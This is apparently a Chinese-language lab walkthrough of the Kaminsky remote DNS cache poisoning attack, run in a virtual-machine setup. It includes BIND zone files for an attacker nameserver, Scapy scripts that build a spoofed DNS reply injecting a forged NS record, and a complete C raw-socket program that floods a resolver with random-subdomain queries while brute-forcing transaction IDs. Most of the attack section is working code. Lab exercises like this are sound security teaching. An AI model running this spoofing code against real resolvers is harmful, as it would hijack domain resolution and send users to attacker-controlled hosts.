








# 远程DNS缓存中毒攻击

本地DNS缓存中毒攻击有一定的局限性，必须在同一个局域网中。而远程攻击嗅探不到DNS请求。  
DNS请求中有两个数据远程攻击者很难获得：  
1、UDP头部的源端口号  
DNS请求通过UDP数据包发送，源端口号是16比特的随机数字  

2、DNS头部16比特的交易ID  

!!! Note

    一个欺骗回复必须包含这两个值，否则回复不会被接受。远程攻击者只能猜测这两个值，猜到
    的概率为2的32次方，如果1秒内发1000个请求，则需要50天。如果用1000个主机的僵尸网络
    发起攻击，则需要1.2小时

而实际由于缓存的因素，DNS服务器不会对同一主机发起第二次请求，除非缓存内的结果过期。缓存的这个特点
使得攻击在尝试第二次攻击前需要等待，这使得远程DNS中毒攻击变得不现实。

## Kaminsky攻击

为了对远程计算机发动欺骗攻击，需要完成三个任务：  
1、触发目标服务器发送DNS请求  
2、发送欺骗回复  
3、使缓存失效  
前两个任务很简单，难度比较大的是第三个，这一直是一个悬而未解的问题，直到Dan Kaminsky提出了一个巧妙的解决
方案，通过他的方案，攻击者可以持续地发起欺骗攻击，而不需要等待。

他的思路不是让缓存失效，而是去修改域名服务器的上一级权威域名服务器。用一个随机的二级域名向远程DNS服务器发请求，
在上一级权威域名服务器回复消息前，伪造消息给远程域名服务器，带上NS记录，如果猜错则继续用随机二级域名重试。  

## 准备攻击环境

实验的目的是让ns.attacker32.com作为example.com的权威域名服务器  
步骤：  
0、配置用户机head文件和配置DNS服务器options和第二节一样  
1、DNS服务器删除example.com这个区域  
2、DNS服务器设置一个forward区域  
由于没有真正拥有attacker32.com这个域名，但是修改配置也可以达到效果
```bash
vi /etc/bind/named.conf
```

```bash
zone "attacker32.com" {
    type forward;
    forwarders {
        192.168.230.156;
    };
};
```
3、配置攻击机  
```bash
vi /etc/bind/named.conf
```
```text
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};
zone "example.com" {
    type master;
    file "/etc/bind/example.com.zone";
};
```
example.com.zone如下：
```text
$TTL 3D
@       IN      SOA   ns.example.com. admin.example.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     1.2.3.4
www     IN      A     1.2.3.5
ns      IN      A     192.168.230.156
*       IN      A     1.2.3.4
```
attacker32.com.zone如下：
```text
$TTL 3D
@       IN      SOA   ns.attacker32.com. admin.attacker32.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     192.168.230.156
www     IN      A     192.168.230.156
ns      IN      A     192.168.230.156
*       IN      A     192.168.230.156
```
重启BIND生效
```bash
sudo service bind9 restart
```

4、在用户机测试  

可以看到这个地址是由攻击机指定的

指定权威域名服务器查询，会得到攻击机的地址

这是通过修改配置文件的方式实现了远程DNS中毒攻击

## 攻击方式实现

实现目标是，当用户访问www.example.com时，重定向到一个恶意的www.example.com

完整的DNS查询过程如下：


example.com名称服务器被缓存情况下的DNS查询过程：

以上这个图，ns.dnslabattacker.net改为ns.attacker32.com

缓存情况下的攻击比较复杂，要拆分成几个阶段  
由于这个实验对回复包的速度有很高要求，python的scapy速度慢成功几率为0，而用c来构造发送和响应包程序复杂，
故更好的方案是用scapy来生成包，由c来发送包  

### 实现构造DNS请求

这个请求是从攻击者发往DNS服务器的

```python
from scapy.all import *

target_name="xxxxx.example.com"    

ip  = IP(dst='192.168.230.154',src='192.168.230.156')
udp = UDP(dport=53,sport=1234,chksum=0)
qds = DNSQR(qname=target_name)
dns = DNS(id=0xaaaa,qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=qds)
Querypkt= ip/udp/dns

with open('query.bin','wb')as f:
	f.write(bytes(Querypkt))
```

由于请求中xxxxx的名字需要改，我们要知道这个名字在二进制文件中的地址，用bless可以看到在0x29，10进制为41


### 伪造DNS回复包

```python
from scapy.all import *

targetName="xxxxx.example.com"
targetDomain="example.com"
attackerNS ="ns.attacker32.com"

dstIP="192.168.230.154"
srcIP='192.168.230.156'                                    

ip = IP(dst=dstIP,src=srcIP,chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

Qdsec = DNSQR(qname=targetName)
Ansec = DNSRR(rrname=targetName,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=targetDomain,type='NS',rdata=attackerNS,ttl=259200)
dns   = DNS(id=0xAAAA,aa=1,rd=1,qr=1,qdcount=1,ancount=1,nscount=1,arcount=0,qd=Qdsec,an=Ansec,ns=NSsec)
Replypkt = ip/udp/dns

with open('reply.bin','wb') as f:
	f.write(bytes(Replypkt))
```


同理，找到响应包中transaction ID为0xAAAA的地址为28， 两个二级域名的地址分别为41、64

### c语言攻击代码

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <sys/socket.h>

#define MAX_FILE_SIZE 2000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);


int main()
{
  long i = 0;

  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("query.bin", "rb");
  if (!f_req) {
     perror("Can't open 'query.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("reply.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'reply.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";
  unsigned short transaction_id = 0;
  while (1) {
    // 构造长度为5的二级域名
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];
    name[5] = '\0';
	printf("attempt #%ld. request is [%s.example.com], transaction ID is: [%hu]\n", 
	     ++i, name, transaction_id);

    // 修改二级域名，发送dns请求
    memcpy(ip_req+41,name,5);               
    send_raw_packet(ip_req, n_req);
   
    // 回复给dns的包，其中有两处域名修改
    memcpy(ip_resp+41,name,5);               
    memcpy(ip_resp+64,name,5);
	
    for(int i=0;i<100;i++)
	{
		transaction_id++;
		
		// 修改序列号，重新发伪造包
		memcpy(ip_resp+28,&transaction_id,2); 
		send_raw_packet(ip_resp,n_resp);
	}
  }
  return 0;
}

void send_raw_packet(char * buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable = 1;

  int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
	     &enable, sizeof(enable));

  struct ipheader *ip = (struct ipheader *) buffer;        
  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;
  
  sendto(sock, buffer, pkt_size, 0,
       (struct sockaddr *)&dest_info, sizeof(dest_info));
  close(sock);
}
```

### 准备测试脚本

在DNS服务器准备测试脚本
```bash
#!/bin/bash

echo 'dump the cache'
sudo rndc dumpdb -cache                                   
cat /var/cache/bind/dump.db | grep attack
echo 'if there is no result,the attack has not succeed yet'
```

### 测试

这个实验开始部分只需两台虚拟机（DNS服务器和攻击机），最后服务器这边查询到已被缓存后，再启动用户机去dig  

1、在攻击机运行攻击程序
```bash
sudo ./attack
```


2、过10秒在服务器运行检测缓存



### 经常会用的命令

```bash
sudo rndc flush
sudo service bind9 restart
```

!!! warning 

    配置实验正确后，必须非常严格地先清空服务端缓存、再发起攻击、再check、再用户机查询  
    一直check不到结果，用户机查配置实验，如已坏则攻击失败，必须服务器和攻击机两虚拟机重启再试  
    攻击的时间不可超过1分钟，否则服务器会不可用，无法重启  

!!! 实验经验

    被攻击的DNS服务器不会使用回复中提供的IP地址，而是会发出一个新的请求亲自查询ns.attacker32.com的真实ip地址，
    攻击者必须真正拥有attacker32.com这个域名才有机会回应这个请求，并提供他们选择的IP地址